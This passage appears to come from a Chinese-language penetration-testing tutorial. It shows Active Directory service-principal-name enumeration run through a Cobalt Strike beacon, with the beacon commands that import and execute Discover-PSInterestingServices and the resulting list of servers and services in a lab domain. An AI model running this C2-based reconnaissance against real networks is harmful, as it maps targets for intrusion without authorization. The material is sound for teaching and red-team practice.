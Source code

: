 如果查询域内所有的SPN信息，我们可以使用`Discover-PSInterestingServices`脚本。

```
beacon> powershell-import D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[*] Tasked beacon to import: D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[+] host called home, sent: 4552 bytes
beacon> powershell Discover-PSInterestingServices
[*] Tasked beacon to run: Discover-PSInterestingServices
[+] host called home, sent: 353 bytes
[+] received output:


Domain          : sub.sectest.com
ServerName      : DC-2.sub.sectest.com
SPNServices     : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04;DNS;exchangeAB;ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : _msdcs.sectest.com
ServerName      : _msdcs.sectest.com\DNSzone
SPNServices     : ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sectest.com\krbgt
SPNServices     : kadmin
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : sql-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 22:07:25
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sqlserver.sectest.com
SPNServices     : MSSQLSvc
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : web-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 20:15:09
OSVersion       : {10.0 (14393)}
```
